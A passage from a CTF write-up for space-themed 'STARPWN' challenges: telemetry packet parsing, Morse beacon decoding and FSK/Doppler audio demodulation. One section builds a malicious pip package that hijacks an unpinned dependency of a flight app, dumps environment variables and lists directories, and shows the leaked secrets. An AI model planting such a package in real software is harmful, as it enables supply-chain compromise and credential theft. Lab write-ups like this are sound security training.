|    4-bytes   |                      6-bytes                       |        N-bytes        |
+--------------+----------------------------------------------------+-----------------------+
0              4                                                    10                      10+N
```

- `ASM - Attached Sync Marker`: This must be `0x1ACFFC1D`, same idea with [`preamble`](https://anduinbrian.github.io/posts/blogs/about-ads-b/#the-preamble)
- `Primary Header`: This header contain `version`,`APID`,...
- `Packet Data Field`: Data sent.

Okay, I have 3 APID:
- `50`: **Free-form system log message**. It just like `dmesg` of the spacecraft (e.g., "Sensor init failed"). `Variable-length ASCII` - the parsing software must look at the Packet Length field in the 6-byte Primary Header to know exactly how many bytes to read. It will then read those bytes and cast them as a standard char array (ASCII string).
- `100`: **Housekeeping telemetry**. Housekeeping is the standard term for health and status data, as distinct from mission or science data. `14-byte fixed (see dict)` - the payload is exactly 14 bytes, the `(see dict)` means you have to look at another page in the documentation to know exactly how those 14 bytes are sliced up.
- `200`: **Attitude control snapshot**. ADCS is Attitude Determination and Control System - the subsystem that answers "which way am I pointing?". `8-byte fixed (decode TBD)` - the payload is exactly 8 bytes, the `(decode TBD)` means the protocol designers haven't yet finalized exactly which data types those 8 bytes represent, so a ground station parser cannot safely decode it into human-readable angles just yet.

We have one more file to notice `telemetry_dictionary.json`. This file is the document we were talking about, this file contains telemetry data dictionary, formatted as a JSON file. For example, the APID `100` is `14-bytes` and `(see dict)`.

```json
  "100": {
    "mnemonic": "HK_NOMINAL",
    "description": "Spacecraft housekeeping telemetry, 14-byte fixed payload.",
    "struct_format": ">HhhhHHBB",
    "byte_order": "big-endian",
    "fields": [
      {
        "offset": 0,
        "name": "sequence_id",
        "type": "uint16"
      },
      {
        "offset": 2,
        "name": "temp_obc",
        "type": "int16",
        "scale": 0.1,
        "units": "degC"
      },
      {
        "offset": 4,
        "name": "temp_battery",
        "type": "int16",
        "scale": 0.1,
        "units": "degC"
      },
      {
        "offset": 6,
        "name": "temp_solar",
        "type": "int16",
        "scale": 0.1,
        "units": "degC"
      },
      {
        "offset": 8,
        "name": "voltage_bus",
        "type": "uint16",
        "scale": 0.001,
        "units": "V"
      },
      {
        "offset": 10,
        "name": "current_bus",
        "type": "uint16",
        "scale": 0.1,
        "units": "mA"
      },
      {
        "offset": 12,
        "name": "mode",
        "type": "uint8",
        "valid_range": [
          0,
          7
        ],
        "enum": {
          "0": "SAFE",
          "1": "NOMINAL",
          "2": "SCIENCE",
          "3": "COMMS",
          "4": "ATTITUDE",
          "5": "THERMAL",
          "6": "POWER",
          "7": "DIAGNOSTIC"
        }
      },
      {
        "offset": 13,
        "name": "error_flags",
        "type": "uint8",
        "bits": {
          "0": "TEMP_WARN",
          "1": "VOLTAGE_WARN",
          "2": "CURRENT_WARN",
          "3": "COMM_DROP",
          "4": "TIMING_SKEW",
          "5": "SENSOR_DRIFT",
          "6": "WATCHDOG_RESET",
          "7": "ANOMALY"
        }
      }
    ]
  },
```

Okay we have this info:
- `"struct_format": ">HhhhHHBB"` - This is the format we will use to unpack it.
- `fields` - this is the data we will parse.

Lets parse a packet from the capture to get more insight:

```
1A CF FC 1D 00 64 C0 00 00 0D 03 E8 00 A1 00 BA 01 D0 1D 79 00 B7 00 00
```

- `1A CF FC 1D` - this is the ASM
- `00 64 C0 00 00 0D` - the primary header:
    - first 2-bytes = `0x0064`:
        - Bits 15 - 13: Version - `000`.
        - Bits 12: Type - `0` Telementry (downlink). `1` would be a command going up.
        - Bits 11: Sec-hdr flag - 	No secondary header — payload starts immediately.
        - Bits 10 - 0: APID - `000 0110 0100` = `0x064` = `100` => `HK_NOMINAL`.
    - next 2-bytes = `0xC000`:
        - Bits 15 - 14: Sequence flags. `01` - First segment; `00` - Continuation segment; `10` - Last segment; `11` - Unsegmented — complete, standalone.
        - Bits 13 - 0: Sequence Count. `000000` = `0`.
    - last 20bytes = `0x000D`:
        - `0x000D` = `13`: The payload size `13 + 1` => payload size is `14`.
- `03 E8 00 A1 00 BA 01 D0 1D 79 00 B7 00 00`:
    - `sequence_id`: `0x03E8` = `1000`.
    - `temp_obc`: `0x00A1` = `161`. Remember the scale: `161 * 0x1` = `16.1 °C`.
    - `temp_battery`: `0x00BA` = `186` => `18.6 °C`.
    - `temp_solar`: `0x01D0` = `464` => `46.4 °C`.
    - `voltage_bus`: `0x1D79` = `7545`. The scale is `0.001` and units is `V` => `7.545 V`.
    - `current_bus`: `0x00B7` = `183` => `18.3 mA`.
    - `error_flags`: `0x0000` => none.

So here is the script I use for decode the packet, we only focus HK_NOMINAL:

```python
import struct

ASM = b'\x1a\xcf\xfc\x1d'

data = open('capture.bin', 'rb').read()

def get_sequence_id(row):
    return row['sequence_id']

packets = []
pos = 0

while True:
    start = data.find(ASM, pos)
    if start < 0:
        break

    header_start = start + 4
    header = data[header_start:header_start + 6]
    word0, word1, word2 = struct.unpack('>HHH', header)

    apid = word0 & 0x7FF
    payload_len = word2 + 1

    payload_start = header_start + 6
    payload = data[payload_start:payload_start + payload_len]

    packet = {}
    packet['apid'] = apid
    packet['payload'] = payload
    packets.append(packet)

    pos = payload_start + payload_len

hk_payloads = []

for packet in packets:
    if packet['apid'] == 100:
        hk_payloads.append(packet['payload'])

rows = []

for payload in hk_payloads:
    values = struct.unpack('>HhhhHHBB', payload)

    row = {}
    row['sequence_id'] = values[0]
    row['temp_obc'] = values[1]
    row['temp_battery'] = values[2]
    row['temp_solar'] = values[3]
    row['voltage_bus'] = values[4]
    row['current_bus'] = values[5]
    row['mode'] = values[6]
    row['error_flags'] = values[7]

    rows.append(row)

rows.sort(key=get_sequence_id)

for row in rows:
    print(row)
```

Output:

```
...

{'sequence_id': 1074, 'temp_obc': 200, 'temp_battery': 196, 'temp_solar': -493, 'voltage_bus': 7473, 'current_bus': 150, 'mode': 48, 'error_flags': 242}
{'sequence_id': 1075, 'temp_obc': 234, 'temp_battery': 171, 'temp_solar': 692, 'voltage_bus': 7423, 'current_bus': 112, 'mode': 109, 'error_flags': 129}
{'sequence_id': 1076, 'temp_obc': 229, 'temp_battery': 196, 'temp_solar': -28, 'voltage_bus': 7344, 'current_bus': 156, 'mode': 4, 'error_flags': 0}
{'sequence_id': 1077, 'temp_obc': 209, 'temp_battery': 190, 'temp_solar': -349, 'voltage_bus': 7404, 'current_bus': 63, 'mode': 6, 'error_flags': 0}
{'sequence_id': 1078, 'temp_obc': 205, 'temp_battery': 176, 'temp_solar': 356, 'voltage_bus': 7341, 'current_bus': 155, 'mode': 52, 'error_flags': 190}

...
```

I noticed some packet have very high value `mode` when the document said it only has mod `0 -> 7`, and it belong to ASCII range. Maybe `mode` is the flag char:

```
...

for row in rows:
    if row['mode'] > 7:
        carriers.append(row)

flag = ''

for row in carriers:
    flag = flag + chr(row['mode'])

print('FLAG:', flag)
```

Flag: `STARPWN{h0us3k33p1ng_4n0m4ly}`

## Starry hacks
>One of your daemons found a low-rent orbital control stack talking to its bird in the clear. That's kind of mistake gets people burned, and you just happen to have a lighter and too much time on your hands tonight.
>
>You’ve already found an archive of the flight software repo, a live target, and a supply chain that looks just soft enough to ruin somebody’s night.
>
>Deets in the file, time to figure out how to cook a package update that bends the workflow in your favor. What secrets is this satellite holding?

### Reading the challenge
The challenge give us `.gz` file:

```
mission/
├── requirements.txt
└── flight_app/
    ├── __init__.py
    └── main.py
```

`flight_app/main.py`
```python
from cubesat_upstream_driver import handle_command


def process_command(cmd: str) -> str:
    """F'-style command dispatcher with telemetry-like output."""
    cmd = (cmd or "").strip()
    if not cmd:
        return "TM|WARN|EMPTY_COMMAND"

    driver_reply = handle_command(cmd)
    if driver_reply:
        return f"TM|EVENT|COMMAND_ACK|{driver_reply}"

    if cmd == "PING":
        return "TM|HEALTH|OK"
    if cmd == "STATUS":
        return "TM|BUS|NOMINAL"

    return f"TM|CMD|IGNORED|{cmd}"
```

`requirements.txt`
```text
cubesat-upstream-driver>=1.0.0
```

The python app will import function `handle_command` from packet `cubesat_upstream_driver`. It doesnt check anything to verify the packet => if we control the `cubesat_upstream_driver` we control `handle_command`, then we can do whatever we want.

In the `requirements.txt`, `cubesat-upstream-driver>=1.0.0` they dont bind any specify version, our metadata just need to have `version>=1.0.0`. They not verify the packet.

Flight app look like this

<div align="center">



*flight app*

</div>

The stategy is clear, create a malicious packet, then upload + build on the server, then run... But I dont know where is the flag, so I try to read ENV and list some dir. The folder should look like this:

```
├── pyproject.toml               
└── cubesat_upstream_driver\   
    └── __init__.py              
```

`cubesat_upstream_driver/__init__.py`
```python
import os

def handle_command(cmd):
    parts = []

    for key in os.environ:
        parts.append("ENV " + key + "=" + os.environ[key])

    for d in ["/", "/app", "/root", os.getcwd()]:
        try:
            names = os.listdir(d)
            parts.append("DIR " + d + " -> " + ",".join(names))
        except Exception:
            pass

    return " || ".join(parts)
```

`pyproject.toml`
```
[build-system]
requires = ["setuptools>=61"]
build-backend = "setuptools.build_meta"

[project]
name = "cubesat-upstream-driver"
version = "1.0.2"

[tool.setuptools]
packages = ["cubesat_upstream_driver"]
```

Then we build, and upload the `.whl` on the server, after that we send a command like `PING`, `STATUS`,... to trigger the `handle_command`. And luckyly, I got flag in ENV:

```
11:28:48 PM TM|EVENT|COMMAND_ACK|ENV FLIGHT_SIM_HOST=127.0.0.1 || ... ENV LANG=C.UTF-8 || ENV PUBLIC_INDEX_HOST=127.0.0.1 || ENV GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D || ENV PYPI_INTERNAL_ROOT=/var/lib/challenge/pypi_internal || ENV FLAG=STARPWN{7h20u9h_v1c702y_my_ch41n5_423_820k3n} || ENV CI_BUILDER_URL=http://127.0.0.1:8080/run-build || ENV INTERNAL_INDEX_HOST=127.0.0.1 || ...
```

Flag: `STARPWN{7h20u9h_v1c702y_my_ch41n5_423_820k3n}`

## Beaconing from above
>You get home to find that one of your old amateur radio projects received something interesting. Who say's leaving old tech listening doesn't pay off? Looks like it's coming from an old CubeSat, how did it survive this long?
>
>The flag is the four payload words, joined by single underscores, wrapped in STARPWN{...}. Submission is case-sensitive; the decoded message is uppercase A-Z and digits.

### Read the challenge
```
$file beacon.wav
beacon.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 22050 Hz
```

### Process the file...
I listen to the file, and I hear `beep` just like morse code... But I can't confirm yet. So I loaded it into `audacity`, 2 main things:
- Wavelength is about the same => no FSK here.
- Based on the waveform, we can confirm they use OOK to send the message.

<div align="center">



*waveform of the beacon.wav*

</div>

Usually, morse code has ratio 1:3. It mean: "The dot has a length of 1 unit, and the dash is three times as long". Lets examine our wav file:
- The shortest symbol take `4390` samples => the longest should arround `13170` ($4390 \times 3 = 13170$).

<div align="center">



*shortest symbol*

</div>

<div align="center">



*longest symbol*

</div>

Yep, we are dealing with `Morse`. You can use this [web](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) to decode, but we have another wait to do it. Its python timeeeee.

First, we need to load the file with python. Because the file is recorded as 16-bit, we need to normalize it by `div` by $2^{15} = 32768$. And because the file is mono `(ndim = 1)`, we skip; if ndim > 1, we take the 1st channel. Then we apply a max filter to detect where the beep is on or off. 

```python
sample_rate, raw = wavfile.read(path)
if raw.ndim > 1:
    raw = raw[:, 0]
audio = raw.astype(np.float64) / 32768.0

envelope = ndi.maximum_filter1d(np.abs(audio), int(sample_rate * 0.005))
is_on = envelope > envelope.max() * 0.5
```

We need to find the start and end index of each beep. If the signal already starts at 1, we prepend index 0 to `starts` since there is no rising edge to detect; likewise we append the array length to `ends` if it ends at 1.

```python
changes = np.diff(is_on.astype(np.int8))
starts = np.where(changes == 1)[0] + 1
ends = np.where(changes == -1)[0] + 1

if is_on[0]:
    starts = np.concatenate(([0], starts))
if is_on[-1]:
    ends = np.concatenate((ends, [len(is_on)]))
```

We measure the length of each ON run and each OFF run. The shortest ON run and the shortest OFF run are both exactly one time unit, so we average them to get the unit length.

```python
marks = []
for i in range(len(starts)):
    marks.append((ends[i] - starts[i]) / sample_rate)
print(marks)
gaps = []
for i in range(len(starts) - 1):
    gaps.append((starts[i + 1] - ends[i]) / sample_rate)

unit = (min(marks) + min(gaps)) / 2.0

mark_units = []
for i in range(len(marks)):
    mark_units.append(int(round(marks[i] / unit)))

gap_units = []
for i in range(len(gaps)):
    gap_units.append(int(round(gaps[i] / unit)))
```

Then we extract the message:
```python
TABLE = {'.-':'A','-...':'B','-.-.':'C','-..':'D','.':'E','..-.':'F','--.':'G',
         '....':'H','..':'I','.---':'J','-.-':'K','.-..':'L','--':'M','-.':'N',
         '---':'O','.--.':'P','--.-':'Q','.-.':'R','...':'S','-':'T','..-':'U',
         '...-':'V','.--':'W','-..-':'X','-.--':'Y','--..':'Z','-----':'0',
         '.----':'1','..---':'2','...--':'3','....-':'4','.....':'5','-....':'6',
         '--...':'7','---..':'8','----.':'9'}

message = ''
current = ''
for i in range(len(mark_units)):
    if mark_units[i] == 1:
        current = current + '.'
    else:
        current = current + '-'
    if i >= len(gap_units):
        break
    g = gap_units[i]
    if g == 1:
        continue
    message = message + TABLE.get(current, '?')
    current = ''
    if g >= 7:
        message = message + ' '
message = message + TABLE.get(current, '?')
print(message)
```

Output:
```
VVV VVV VVV DE STARPWN STARPWN STARPWN B34C0N D3C0D3D V14 R4D10 73 DE STARPWN K
```

`DE` appear in message 2 times. 1 is near the start and 1 is near the end => `begin/end` of the message, so out flag must in between. I tried to submid `STARPWN{B34C0N_D3C0D3D_V14_R4D10_73}` but fail, hmm so I start googling. Then I realize the `73` is stand for `best regards`, so I remove it.

Flag: `STARPWN{B34C0N_D3C0D3D_V14_R4D10}`


## Glittercity OST1
>Wake up Glider. We've got a grid to light up.
>
>Sipping on your midnight Synth'offee, you noticed something strange with the song in your brain. Is your GridLink glitching or is there something more to it? Good thing you managed to record it

### Reading the challenge
```
$file Glittercity-OST1.mp3
Glittercity-OST1.mp3: Audio file with ID3 version 2.3.0, contains: MPEG ADTS, layer III, v1, 192 kbps, 48 kHz, Stereo
```

Load it into `010 Editor`.

```
0000h: 49 44 33 03 00 00 00 00 01 7E 54 49 54 32 00 00  ID3......~TIT2.. 
0010h: 00 0B 00 00 00 43 61 70 74 75 72 65 2D 37 00 54  .....Capture-7.T 
0020h: 50 45 31 00 00 00 0C 00 00 00 50 52 49 53 4D 41  PE1.......PRISMA 
0030h: 4E 54 49 52 00 54 58 58 58 00 00 00 A7 00 00 00  NTIR.TXXX...§... 
0040h: 63 6F 6D 6D 65 6E 74 00 54 4C 45 3A 0A 43 48 41  comment.TLE:.CHA 
0050h: 4E 44 45 4C 49 45 52 2D 37 0A 31 20 32 35 35 34  NDELIER-7.1 2554 
0060h: 34 55 20 39 38 30 36 37 41 20 20 20 32 36 32 30  4U 98067A   2620 
0070h: 37 2E 34 31 30 38 34 31 34 35 20 20 2E 30 30 30  7.41084145  .000 
0080h: 31 30 37 35 31 20 20 30 30 30 30 30 2B 30 20 20  10751  00000+0   
0090h: 32 30 31 36 36 2D 33 20 30 20 20 39 39 39 35 0A  20166-3 0  9995. 
00A0h: 32 20 32 35 35 34 34 20 20 35 31 2E 36 33 31 37  2 25544  51.6317 
00B0h: 20 31 30 35 2E 39 38 37 36 20 30 30 30 36 39 34   105.9876 000694 
00C0h: 31 20 33 33 39 2E 34 37 33 31 20 20 32 30 2E 35  1 339.4731  20.5 
00D0h: 39 37 37 20 31 35 2E 34 39 31 38 31 36 30 34 35  977 15.491816045 
00E0h: 37 37 38 33 30 00 54 53 53 45 00 00 00 0E 00 00  77830.TSSE...... 
00F0h: 00 4C 61 76 66 36 32 2E 33 2E 31 30 30 00 00 00  .Lavf62.3.100... 
0100h: 00 00 00 00 00 00 00 00 FF FB B4 00 00 00 00 00  ........ÿû´..... 
0110h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................ 
0120h: 00 00 00 00 00 00 00 00 00 00 00 00 49 6E 66 6F  ............Info 
0130h: 00 00 00 0F 00 00 1D 4C 00 41 ED 40 00 03 05 08  .......L.Aí@.... 
0140h: 0A 0D 10 12 14 18 1A 1C 1F 21 24 27 29 2B 2E 31  .........!$')+.1 
0150h: 33 36 38 3B 3E 40 42 45 48 4A 4D 4F 51 55 57 59  368;>@BEHJMOQUWY 
0160h: 5C 5F 61 64 66 68 6C 6E 70 73 75 78 7B 7D 80 83  \_adfhlnpsux{}€ƒ 
0170h: 85 88 8A 8C 90 92 94 97 9A 9C 9F A1 A3 A7 A9 AB  …ˆŠŒ
```

The metadata of mp3 file contains something:
- `TIT2`: `Capture-7` - This is the title of the song.
- `TPE1`: `PRISMANTIR` - This is the performer.
- `TXXX`: `TLE:\nCHANDELIER-7\n1 25544U 98067A   26207.41084145  .00010751  00000+0  20166-3 0  9995\n2 25544  51.6317 105.9876 0006941 339.4731  20.5977 15.49181604577830` - TLE data.

Lets focus on the `TLE`:
- Line 1: `CHANDELIER-7` - This is the name of satellite.
- Line 2: `1 25544U 98067A   26207.41084145  .00010751  00000+0  20166-3 0  9995`:
    - `1`: Line order.
    - `25544`: Satellite catalog number.
    - `U`: Classification. `U` = unclassified, `C` = classified, `S` = secret.
    - `98067`: Launch year `98 = 1998` + launch of that year `067`.
    - `A`: Piece of the launch. `A` mean the core module (satellite), the primary object; B, C, D… cover upper stages and secondary payloads like rocket bodies, boosters,...
    - `26207.41084145`: Epoch time. `26` - 2026, `207` - day of the year, `.41084145` - time (9:51:36.7 UTC).
    - `.00010751`: Orbital decay rate. If the value is negative, the satellite recently executed a burn to maintain altitude. If it is 0, the orbit is stable. If positive, the satellite is experiencing orbital decay and needs thrust to maintain its altitude.
    - `00000+0`: Acceleration of orbital decay = $0.00000 \times 10^{0} = 0$.
    - `20166-3`: BSTAR Drag Term = $0.20166 \times 10^{-3}$, Higher BSTAR means the satellite is more affected by atmospheric drag.
    - `0`: The orbital model used to generate the data (0 means standard SGP4/SDP4).
    - `999`: Element Set Number. The sequence number of this TLE. It increments by 1 every time a new TLE is published for this object.
    - `5`: Checksum.
- Line 3: `2 25544  51.6317 105.9876 0006941 339.4731  20.5977 15.49181604577830`:
    - `2`: Line order.
    - `25544`: Satellite catalog number. Must match Line 1.
    - `51.6317`: Inclination. The angle between the satellite's orbit and the Earth's equator, measured in degrees.
    - `105.9876`: Right Ascension of the Ascending Node. The angle (in degrees) measured at the center of the Earth from the vernal equinox to the point where the satellite crosses the equator from South to North.
    - `0006941`: Eccentricity. The shape of the orbit.
    - `339.4731`: Argument of Perigee. The angle (in degrees) from the ascending node to the perigee (the point where the satellite is closest to Earth).
    - `20.5977`: Mean Anomaly. Indicates where the satellite is along its orbital path right now, measured in degrees from the perigee.
    - `15.49181604`: Mean Motion. How many full orbits the satellite completes in one Earth day (revolutions per day).
    - `57783`: Revolution Number at Epoch. The total number of orbits the satellite has completed since launch at the time of the TLE epoch.
    - `0`: Checksum.

Wait a min. The file is `48 kHz`, `Stereo`, `3 mins`, so the math is:

$$
   48000 \times 2_\text{stereo} \times 2_\text{16-bit} \times 180 =  34.560.000 Byte \approx 34,56 MB
$$

But the file is only arroud `4 MB` => this file is compressed. We need to decompress it using:

```
ffmpeg -i Glittercity-OST1.mp3 -ac 2 -ar 48000 out.wav
```

- `-ac 2`: keep the stereo
- `-ar 48000`: keep sample rate = `48 Khz`

### Solving the challenge

Load it in `audacity`, I saw 2 lines on `L` and `R`. To highlight it, I make a `L-R` version.

<div align="center">



</div>

<div align="center">



*L-R version (Edit the Spectrogram setting to get better view)*

</div>

First, we need to pick [`window_size`](https://support.ircam.fr/docs/AudioSculpt/3.0/co/Window%20Size.html). `window_size` usually is $2^{x}$, we will have to pick `x`. For this challenge, the upper tone sweeps from around `14.2 kHz` down to around `10 kHz`, so it drifts `~4 kHz`. That happens over $T_\text{sweep} = 106-15 = 91\text{ s}$ => $R = 4000/91\approx44\text{ Hz/s}$.
 
Two errors compete here. Frequency resolution is $1/T_\text{win}$, so a **short** window resolves badly. But inside one window the tone drifts by $R \cdot T_\text{win}$, so a **long** window smears the peak. Set them equal, $1/T_\text{win} = R \cdot T_\text{win}$, and we get:
 
$$
   N\approx\frac{f_s}{\sqrt{R}}=\frac{48000}{\sqrt{44}}\approx7239
$$
 
- $2^{12}=4096$.
- $2^{13}=8192$ => nearest, choice `x = 13` => `window_size = 8192`.
$$
   T_\text{win} = \frac{N}{f_s} \implies T_\text{win} = \frac{8192}{48000} \approx 0.170666... \text{ s}
$$
 
Okay so 8192 samples span 170ms. Sanity check: `df = 5.86 Hz` and the sweep smear is $R \cdot T_\text{win} = 7.5\text{ Hz}$ — the two errors are about equal, which is exactly what the formula was balancing.
 
Next, we need to decide what is the best `step_size`. We want the tone to move **less than one bin** between consecutive frames, so the ridge stays smooth and trackable. We pick `step_size = 1024` because $48000/1024\approx47\text{ frame/s}$, so the tone drifts $44/47\approx0.94\text{ Hz}$ per frame (rate 1:1 is dabest). Extract 2 tone (tone_low, tone_high):
 
```python
import numpy as np
import wave, re
from scipy import signal
from scipy.ndimage import median_filter

def track_ridge(f_start, col_lo, col_hi, freqs, spec, df):
    current = f_start
    num_cols = col_hi - col_lo + 1
    result = np.zeros(num_cols)
    
    for idx, j in enumerate(range(col_lo, col_hi + 1)):
        k0 = np.searchsorted(freqs, current - 200.0)
        k1 = np.searchsorted(freqs, current + 200.0)
        column = spec[k0:k1, j]
        best_k = k0 + int(np.argmax(column))
        
        a = np.log(spec[best_k - 1, j] + 1e-20)
        b = np.log(spec[best_k, j] + 1e-20)
        c = np.log(spec[best_k + 1, j] + 1e-20)
        delta = 0.5 * (a - c) / (a - 2.0 * b + c)
        
        f_est = freqs[best_k] + delta * df
        result[idx] = f_est
        current = f_est
    return result

w = wave.open('side_ridge.wav')
sr = w.getframerate()
side = np.frombuffer(w.readframes(w.getnframes()), dtype='<i2').astype(float) 
w.close() 

wind_size = 8192
step_size = 1024
freqs, times, spec = signal.spectrogram(side, sr, nperseg=wind_size, noverlap=wind_size - step_size)
df = freqs[1] - freqs[0]

col_lo = np.searchsorted(times, 15.0)
col_hi = np.searchsorted(times, 105.0)

start_col = spec[:, col_lo]
band_idx = np.where((freqs > 6000) & (freqs < 16000))[0]

peak1_idx = band_idx[np.argmax(start_col[band_idx])]
f1 = freqs[peak1_idx]

mask_radius = int(1500.0 / df)
masked_col = start_col.copy()
start_mask = max(0, peak1_idx - mask_radius)
end_mask = min(len(masked_col), peak1_idx + mask_radius)
masked_col[start_mask:end_mask] = 0

peak2_idx = band_idx[np.argmax(masked_col[band_idx])]
f2 = freqs[peak2_idx]

f_lo_start, f_hi_start = sorted([f1, f2])

print(f"[+] Low start = {f_lo_start:.1f} Hz, High start = {f_hi_start:.1f} Hz")

upper = track_ridge(f_hi_start, col_lo, col_hi, freqs, spec, df)
lower = track_ridge(f_lo_start, col_lo, col_hi, freqs, spec, df)
t_sel = times[col_lo:col_hi + 1]
```
 
By the shape of the spectrogram, I guess 2 lines (tone) is mark/space of FSK demodulation, but we need to prove it. I need 2 thing to prove it:
- `tone_low` and `tone_high` differ by `~2 kHz`, constant. This rules out two independent transmitters — two free-running oscillators cannot drift `4 kHz` while holding their difference to a few tens of Hz.
- When one tone is on, the other must be off. This rules out a pilot tone (a reference must be continuously present) and DSB-SC (which modulates both sidebands in phase, giving positive correlation instead of negative).
Which of the two is `mark` and which is `space` cannot be told from the signal — that mapping is the transmitter's arbitrary choice, and I resolve it later with the frame checksum.

I choice to examine from `t=15s -> 49s`. The code is:

```python
print("[+] Running Tone Diagnostics (15s - 49s)...")
idx_49 = np.searchsorted(t_sel, 49.0)
HI = upper[:idx_49]
LO = lower[:idx_49]
t_seg = t_sel[:idx_49]

gap = HI - LO
med_gap = np.median(gap)
good = np.abs(gap - med_gap) < 200

print(f"  [-] Gap: {med_gap:.0f} Hz")
print(f"  [-] Gap wobble: {gap[good].std():.0f} Hz")
print(f"  [-] Tone drift: {abs(HI[0]-HI[-1]):.0f} Hz")
print(f"  [-] Ratio: {100*gap[good].std()/abs(HI[0]-HI[-1]):.1f} %")

# we need to use small widows_size for more accurate
N2 = 128
fS, tS, SS = signal.spectrogram(side, sr, nperseg=N2, noverlap=N2-32, window='hann', mode='magnitude')

ridge = uniform_filter1d(median_filter(HI, 151), 151)
r_hi  = np.interp(tS, t_seg, ridge)
r_lo  = r_hi - med_gap

kh = np.abs(fS[:, None] - r_hi).argmin(axis=0)
kl = np.abs(fS[:, None] - r_lo).argmin(axis=0)
cx = np.arange(len(tS))
ins = (tS > 16.0) & (tS < 48.0)

A = 20*np.log10(SS[kh, cx][ins] + 1e-9) 
B = 20*np.log10(SS[kl, cx][ins] + 1e-9)   
D = A - B

print(f"  [-] |A-B| > 10 dB: {100*(np.abs(D) > 10).mean():.1f} %")
print(f"  [-] |A-B| <  3 dB: {100*(np.abs(D) <  3).mean():.1f} %\n")
```

Output:

```
[+] Low start = 12322.3 Hz, High start = 14273.4 Hz
[+] Running Tone Diagnostics (15s - 49s)...
  [-] Gap: 2015 Hz
  [-] Gap wobble: 47 Hz
  [-] Tone drift: 1402 Hz
  [-] Ratio: 3.3 %
  [-] |A-B| > 10 dB: 90.7 %
  [-] |A-B| <  3 dB: 8.0 %
```

- Gap is arround `2k hz +- 46 hz`.
- |A - B| > 10 dB - meaning the power at A is stronger than the power at B (> 10 db) => mean A on B off. 

With 90.7% of (A on, B off) and gap is arround ~2k hz => this is `FSK mark/space`. We need to talk about few things:
- The curve of 2 tones is S-shaped, not linear: shallow, steep, shallow.
- The 2 tones move in parallel.
- We have freq of tone_high and tone_low at t=15s: 14274.0 and 12324.2.

$$
   v_{\text{rad}} = \frac{c \cdot \Delta f}{f_{RF}}
$$

$$
   v_{\max} = \frac{c}{f_{RF}} \cdot \frac{f_{\text{center}}(t_0) - f_{\text{center}}(t_1)}{2} = \frac{3.00 \times 10^{8} \times 2094}{145.8 \times 10^{6}} \approx 4.3\ \text{km/s}
$$

**Where:**
* **$v_{\max}$**: Peak radial velocity of the transmitter along the line of sight (meters per second, $\text{m/s}$).
* **$c$**: Speed of light, $2.998 \times 10^{8}\ \text{m/s}$.
* **$f_{RF}$**: The satellite's carrier frequency, taken as the ISS VHF downlink at $145.800\ \text{MHz}$. I choice ISS because the `NORAD ID = 25544`
* **$f_{\text{center}}(t_0)$**: Fitted centre frequency at the start of the analysis window, $13315.8\ \text{Hz}$ at $t_0 = 15\ \text{s}$.
* **$f_{\text{center}}(t_1)$**: Fitted centre frequency at the end of the window, $9127.5\ \text{Hz}$ at $t_1 = 105\ \text{s}$.

we have $v_{\max}$ arround 4.3 km/s, faster than anything that flies on Earth => the satellite is on `LEO - Low Earth orbit`.

From everything I point out, this should be `Doppler effect`. We need to make the signal straight, then we can extract the data.

This block does two things. First it removes the Doppler drift, pinning the two FSK tones at a fixed ±1007 Hz (gap/2). Then it isolates the upper tone alone, so the remaining problem is just "is this tone present or not" — an OOK-style decision that a simple threshold can solve.

```python
print("[+] Doppler Compensation...")
center = (upper + lower) / 2.0
coef = np.polyfit(t_sel, center, 6)
t_axis = np.arange(len(side)) / float(sr)

phase = 2.0 * np.pi * np.polyval(np.polyint(coef), t_axis)
baseband = side * np.exp(-1j * phase)

sos_a = signal.butter(8, 1800, "lp", fs=sr, output="sos")
baseband = signal.sosfiltfilt(sos_a, baseband)
baseband = signal.decimate(baseband, 6, ftype="fir")
sr_b = int(sr / 6)

t_b = np.arange(len(baseband)) / float(sr_b)
sub = baseband * np.exp(-2j * np.pi * (med_gap/2.0) * t_b)
sos_b = signal.butter(8, 300, "lp", fs=sr_b, output="sos")
sub = signal.sosfiltfilt(sos_b, sub)
envelope = np.abs(sub)
```

We need baud rate to extract the bit, we must use correct baud or everybit will be wrong.

```python
d = np.abs(np.diff(envelope[15*8000 : 49*8000]))
d = d - d.mean()
P = np.abs(np.fft.rfft(d, 1<<20))
f = np.fft.rfftfreq(1<<20, 1/8000)
m = (f > 50) & (f < 1500)
print(f"[+] {f[m][P[m].argmax()]}")
```

We examine where bit is flipped (0 -> 1, 1 -> 0). Then use FFT to find what is the Hz that most bit is flipped. Output:

```
300.0030517578125
```

Serial links use a small set of standard rates — `300, 600, 1200, 2400, 4800, 9600,...` and on HF also `45.45, 50, 75,...`. Our measurement of `300.0030517578125` Hz sits on top of `300` and nowhere near any other entry in that list, so rounding to `300` baud is safe.

I use `baud = 300 => 0.00333 s` for 1 bit. I can look at the spectrogram and extract bits by eyes:

<div align="center">



</div>

First bit will be `1` or `0`, I dont really know yet. The first 8 bits is `10000001 (0x81)` or `01111110 (0x7E)`. But you know what, `01111110 (0x7E)` is the HDLC flag. Seeing it repeated tells us three things immediately: the framing is `HDLC (AX.25 on amateur radio)`, bytes are `LSB-first`, and there's a `CRC-16` frame check sequence at the end of each frame.

<div align="center">



*The 0x7E repeat*
</div>

I don't know where the first bit starts, so I just brute-force it by walking in 0.25 steps to not miss anything. This is called `Phase Recovery`, but I use a stupid way (brute-force) hahah. Basically, I try to find a place where the distance between `high (1)` and `low (0)` is the farthest.

```python
baud = 300.0
sps = sr_b / baud
best_phase, best_score = 0.0, -1.0

start_pos = 15.6 * sr_b
end_pos = 106.5 * sr_b

for phase_try in np.arange(0, sps, 0.25):
    indices = np.arange(start_pos + phase_try, end_pos, sps).astype(int)
    values = envelope[indices]
    
    med = np.median(values)
    high_vals = values[values > med]
    low_vals = values[values <= med]
    
    spread = np.std(high_vals) + np.std(low_vals) + 1e-9
    score = (np.mean(high_vals) - np.mean(low_vals)) / spread
    
    if score > best_score:
        best_score = score
        best_phase = phase_try
```

After found out the phase, we can start to extract:

```python
best_indices = np.arange(start_pos + best_phase, end_pos, sps).astype(int)
samples = envelope[best_indices]
threshold = np.median(samples)

bit_string = "".join(np.where(samples > threshold, "0", "1"))

data = []

for m in re.finditer(r'(?=01111110)', bit_string):
    data.append(m.start())

print(f"[+] Found {len(data)} frames !!")
```

```
[+] Found 1095 frames !!
